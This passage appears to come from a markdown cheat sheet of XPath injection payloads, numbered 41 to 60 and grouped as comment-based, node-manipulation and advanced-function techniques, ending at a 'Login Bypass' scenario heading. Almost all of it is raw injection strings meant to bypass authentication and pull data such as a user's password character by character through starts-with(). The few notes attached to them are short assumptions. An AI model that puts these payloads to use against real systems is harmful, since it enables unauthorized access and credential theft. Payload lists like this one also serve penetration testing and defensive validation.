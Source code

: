 ```
41. ' or '1'='1' <!--
42. admin'<!-- comment -->' or '1'='1
43. ') or '1'='1' <!-- injection
44. ' or '1'='1'<!-- bypassed
45. admin' or '1'='1' <!-- comment --> or ''='
```

> **Assumption**: The XPath processor supports XML comments. Not all processors handle comments the same way in XPath queries.

---

### Category 5: Node Manipulation (10 examples)

These payloads manipulate node selection:

```
46. '] | //*%00
47. ') or self::* or ('
48. ' or parent::* or ''='
49. ' or child::node() or ''='
50. ') | //node()%00
51. ' or ancestor::* or ''='
52. ' or descendant::* or ''='
53. ') or following-sibling::* or ('
54. ' or preceding-sibling::* or ''='
55. '] | //user[@id>0]%00
```

---

### Category 6: Advanced Techniques (5 examples)

Advanced exploitation techniques:

```
56. ' or normalize-space()='' or ''='
57. ' or translate(username,'a','b')=username or ''='
58. ') or starts-with(//user[1]/password, 's') or ('
59. ' or ceiling(1.5)=2 or ''='
60. ' or floor(1.5)=1 or ''='
```

> **Assumption**: These advanced techniques require knowledge of XPath functions. Attackers often enumerate available functions through error messages.

---

## Attack Scenarios

### Scenario 1: Login Bypass

**Context**: A login form that uses XPath for authentication.
